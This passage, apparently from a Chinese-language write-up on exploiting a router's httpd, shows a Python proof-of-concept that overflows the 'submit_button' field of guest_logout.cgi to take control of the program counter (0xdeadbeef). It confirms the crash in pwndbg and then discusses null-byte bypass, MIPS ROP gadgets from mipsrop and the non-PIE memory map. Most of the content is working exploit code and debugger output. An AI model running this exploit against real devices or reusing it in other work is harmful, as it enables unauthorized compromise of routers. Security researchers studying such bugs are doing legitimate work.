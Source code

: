 当然这个长度是在`status_guestnet.asp`这个固定字符串之后的长度，来让我们发个`0xdeadbeef`测试一下：

```python
import requests
from pwn import *

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*85+p32(0xdeadbeef),"cip":"192.168.1.100"}
requests.post(url, data=payload, verify=False, timeout=1)
```

没问题：

```python
pwndbg> c
Continuing.

Program received signal SIGBUS, Bus error.
0xdeadbeef in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────[ REGISTERS ]───────────────────────────────────
 PC   0xdeadbeef
```

### 空字节绕过

对于MIPS的栈溢出来说，payload中一般含有gadget的地址和shellcode，所以这两部分都要绕过00。

#### gadget

如果我们直接用httpd这个程序本身的gadget，则无法满足要求，因为程序的地址是包含00的：

```python
Python>mipsrop.stackfinder()
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x00409A14  |  addiu $v1,$sp,0x178+var_158                         |  jalr  $s2                             |
|  0x00409A44  |  addiu $s0,$sp,0x178+var_64                          |  jalr  $s2                             |
|  0x00409B6C  |  addiu $a1,$sp,0x178+var_F8                          |  jalr  $s1                             |
|  0x00409B8C  |  addiu $a1,$sp,0x178+var_E0                          |  jalr  $s1                             |
```

而且程序没有开启PIE，故IDA中给出的地址就是最终程序的加载地址：

```bash
$ cat /proc/356/maps
00400000-00491000 r-xp 00000000 1f:02 321        /usr/sbin/httpd
004d0000-004d8000 rw-p 00090000 1f:02 321        /usr/sbin/httpd
004d8000-004fc000 rwxp 004d8000 00:00 0          [heap]
2aaa8000-2aaad000 r-xp 00000000 1f:02 982        /lib/ld-uClibc.so.0
2aaad000-2aaae000 rw-p 2aaad000 00:00 0 
2aaae000-2aabe000 r--s 00000000 00:0b 439        /dev/nvram
2aaec000-2aaed000 r--p 00004000 1f:02 982        /lib/ld-uClibc.so.0
2aaed000-2aaee000 rw-p 00005000 1f:02 982        /lib/ld-uClibc.so.0
2aaee000-2aaf2000 r-xp 00000000 1f:02 298        /usr/lib/libnvram.so
2aaf2000-2ab32000 ---p 2aaf2000 00:00 0 
2ab32000-2ab33000 rw-p 00004000 1f:02 298        /usr/lib/libnvram.so
2ab33000-2ab75000 r-xp 00000000 1f:02 304        /usr/lib/libshared.so
2ab75000-2abb5000 ---p 2ab75000 00:00 0 
```